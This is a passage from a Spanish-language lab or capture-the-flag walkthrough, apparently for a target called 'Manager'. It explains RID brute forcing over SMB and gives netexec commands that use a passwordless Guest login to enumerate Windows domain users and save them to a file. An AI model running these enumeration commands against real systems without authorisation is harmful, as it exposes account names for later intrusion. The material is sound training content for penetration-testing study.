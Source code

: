 ### Performing a RID Brute Force Attack using Netexec

Procederemos a realizar con **netexec** sobre el SMB un ataque de **RID Brute Force Attack**.

Un ataque de fuerza bruta RID consiste en probar diferentes valores de RID (Relative Identifier) para identificar usuarios en un sistema Windows, utilizando el hecho de que los RIDs suelen ser consecutivos a partir de un valor conocido, como el administrador (500) o el invitado (501).

```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute
```

<figure><img src="../../../.gitbook/assets/1420_vmware_w3FX8e9D83.png" alt=""><figcaption></figcaption></figure>

Del resultado anterior, extraeremos los campos que nos interesa, los nombres de los usuarios y nos lo guardaremos en "users.txt".

{% code overflow="wrap" %}
```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//'

netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//' > users.txt

catnp users.txt
```
{% endcode %}
